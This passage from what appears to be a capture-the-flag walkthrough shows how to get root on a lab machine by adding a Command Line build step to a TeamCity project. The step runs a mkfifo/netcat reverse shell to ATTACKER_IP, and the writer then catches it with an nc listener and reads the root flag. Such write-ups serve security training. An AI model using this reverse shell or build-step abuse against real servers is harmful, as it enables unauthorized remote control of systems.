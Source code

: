 Click the "Create project" button highlighted above and fill in the details:

![699fb8ea2be2403c9e2f6e2ba30ee117.png](/resources/10056fe1ee8a4723aad895ce124cf25b.png)

On the next page, click on "Create build configuration"

![7ad97d0a899533a86db6b966f4678b6e.png](/resources/00b571110c054b5490535ace5c618bfb.png)

Then fill in the required information and click the "Create" button:

![aeb8df976ebcc3231d9bf088f7819d20.png](/resources/b8c7bdeea95946678226fb215dc47819.png)

On the next step click the "Skip" button. After being redirected to the "Version Control Settings" page, click on the "Build Steps" link underneath:

![06a1c892e6a3b74b7d5c9d262b9f8b58.png](/resources/73d5c37c5f3a43b29f1e8e7de6a47d40.png)

Then click the "Add build step" button:

![75185212f3548ad4d38c133702c2f9ee.png](/resources/296d7e0e91224f9db01fcdc759a1473a.png)

Select "Command Line" as the runner type from the dropdown menu:

![6ccde53d5bf4f397e47c242e88651b5d.png](/resources/4028c91e57c44570a5e894c29e73a54f.png)

For the build script, we can use the `mkfifo` version reverse shell and click the "Save" button when finished:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

![7ea95a2a195488fdbdb395163a80828a.png](/resources/b3483b5958254d6f8b9a9120488e8bf7.png)

Open a new terminal on the attacking machine and start a [Netcat](https://linux.die.net/man/1/nc) listener:

```sh
nc -nvlp 4444
```

Back on the TeamCity website, click on the "Run" button towards the upper right:

![613f9faf642582d79298b39afdf18f10.png](/resources/1988fbf62bae41b088692e8b656977d4.png)

After a moment we should have a connection back on our Netcat listener and since the build agent is running as root, we have root privileges:

![97a317ac9f1a12b19291614cd1697f2a.png](/resources/71b58036cea24275abc2d293ddaa4551.png)

We can find the root flag in `/root/root.txt`:

```sh
cat /root/root.txt
```

![7533edd7fb0cc411b6f0155b5e80280b.png](/resources/ece39bf932234faf86fb497e10397e57.png)
